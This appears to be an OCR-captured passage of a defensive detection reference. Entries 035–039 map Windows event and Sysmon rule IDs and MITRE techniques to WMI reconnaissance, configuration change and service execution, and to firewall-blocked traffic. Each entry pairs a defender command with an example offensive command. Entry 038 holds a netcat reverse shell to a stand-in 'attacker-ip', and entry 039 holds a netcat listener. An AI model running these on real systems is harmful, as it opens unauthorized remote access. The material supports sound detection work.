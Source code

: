 ### **WMI Data Queries:**

**ID:** 035
MITRE Tactic & Techniques:** Discovery | Remote System Discovery [T1018]
Event ID & Code:** 5858 | WMI_ACTIVITY_EXECQUERY
**Status Code:** N/A
**Sysmon Rule ID:** 135
Commands and Code:** `Get-WmiObject -Class Win32_ComputerSystem`
Description:** Querying system information via WMI for reconnaissance.
Example Offensive Codes and Commands:** `wmic computersystem get model,name,manufacturer`

### **WMI System Configuration Modification:**

ID:** 036
MITRE Tactic & Techniques:** Defense Evasion | Modify System Image [T1542.003]
Event ID & Code:** 5858 | WMI_ACTIVITY_EXECQUERY
Status Code:** N/A
Sysmon Rule ID:** 136
Commands and Code:** `Set-WmiInstance -Class Win32_OperatingSystem -Property @{Description='Modified System'}`
Description:** Modifying system configurations via WMI.
Example Offensive Codes and Commands:** `wmic os set description="Modified System"`

### **WMI Service Control:**

ID:** 037
**MITRE Tactic & Techniques:** Execution | Service Execution [T1569.002]
Event ID & Code:** 5858 | WMI_ACTIVITY_EXECQUERY
Status Code:** N/A
Sysmon Rule ID:** 137
Commands and Code:** `Get-WmiObject -Class Win32_Service | Where-Object {$_.Name -eq 'malicioussvc'} | Invoke-WmiMethod -Name StartService`
Description:** Controlling services via WMI.
Example Offensive Codes and Commands:** `wmic service malicioussvc call startservice`



### Unauthorized Outbound Traffic:**

**ID:** 038
MITRE Tactic & Techniques:** Command and Control | Commonly Used Port [T1043]
Event ID & Code:** 5157 | FIREWALL_BLOCK
Status Code:** N/A
Sysmon Rule ID:** 138
Commands and Code:** `Get-WinEvent -LogName "Microsoft-Windows-Windows Firewall With Advanced Security/Firewall"`
Description:** Firewall blocked unauthorized outbound traffic to a suspicious IP.
**Example Offensive Codes and Commands:** `nc -e cmd.exe attacker-ip 443`

### **Inbound Connection Attempt:**

ID:** 039
MITRE Tactic & Techniques:** Initial Access | External Remote Services [T1133]
Event ID & Code:** 5157 | FIREWALL_BLOCK
Status Code:** N/A
Sysmon Rule ID:** 139
Commands and Code:** `netsh advfirewall firewall show rule name=all`
Description:** Firewall blocked an unauthorized inbound connection attempt.
Example Offensive Codes and Commands:** `nc -lvp 4444`

